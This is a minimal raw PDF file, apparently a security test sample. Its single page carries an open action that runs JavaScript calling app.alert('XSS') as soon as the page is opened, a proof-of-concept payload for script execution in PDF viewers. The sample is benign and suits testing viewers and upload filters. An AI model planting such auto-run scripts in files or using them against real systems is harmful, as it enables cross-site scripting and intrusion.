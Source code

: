 %PDF-1.3
%    
1 0 obj
<</Pages 2 0 R /Type /Catalog>>
endobj
2 0 obj
<</Count 1 /Kids [3 0 R] /Type /Pages>>
endobj
3 0 obj
<</AA
  <</O
  <</JS
  (
try {
  app.alert\("XSS"\)
} catch \(e\) {
  app.alert\(e.message\);
}
    ) 
  /S /JavaScript>>>>
  /Annots [] /Contents 4 0 R /MediaBox [0 0 612 792] /Parent 2 0 R
  /Resources
  <</Font <</F1 <</BaseFont /Helvetica /Subtype /Type1 /Type /Font>>>>>>
  /Type /Page>>
endobj
4 0 obj
<</Length 21>>
stream
 
BT
/F1 24 Tf
ET
    
endstream
endobj
xref
0 5
0000000000 65535 f
0000000015 00000 n
0000000062 00000 n
0000000117 00000 n
0000000424 00000 n
trailer

<</Root 1 0 R /Size 5>>
startxref
493
%%EOF
